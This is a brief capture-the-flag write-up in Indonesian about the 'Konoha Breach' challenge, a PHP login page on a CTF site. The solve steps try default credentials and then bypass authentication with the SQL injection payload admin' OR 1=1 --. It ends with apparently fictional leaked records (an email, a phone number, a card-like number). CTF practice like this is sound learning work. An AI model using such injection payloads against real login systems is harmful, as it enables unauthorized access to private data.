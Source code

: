 # Konoha Breach
## soal
Desa Konoha baru saja meluncurkan sistem data tabel internal untuk para ninja tingkat tinggi. Sistem ini hanya bisa diakses setelah login dengan kredensial resmi admin.

Namun, rumor menyebutkan bahwa sistem ini dibangun tergesa-gesa oleh seorang Chuunin yang baru belajar PHP. Konon, ada celah klasik yang memungkinkan siapa pun melewati sistem login dan mengakses dashboard rahasia tanpa kredensial!

Bocoran pertama yang muncul berisi daftar shinobi aktif dan lokasi markas Anbu. Keamanan Konoha kini dalam bahaya…

Bisakah kamu menyusup ke sistem tanpa login dan menemukan yang tersembunyi? \
[website](https://ctf.solusiber.com/login_bypass/)

## hint

## solve
- ada sebuah web login
- lalu saya coba login dengan credensial default seperti
  ```bash
  admin:admin
  ```
- namun masih belum berhasil
- lalu saya mencoba payload sqli simple seperti
  ```bash
  admin' OR 1=1 --
  ```
- dan ternyata ini berhasil masuk ke dashboard


naruto@konoha.go
081234567890 	
1234567890123456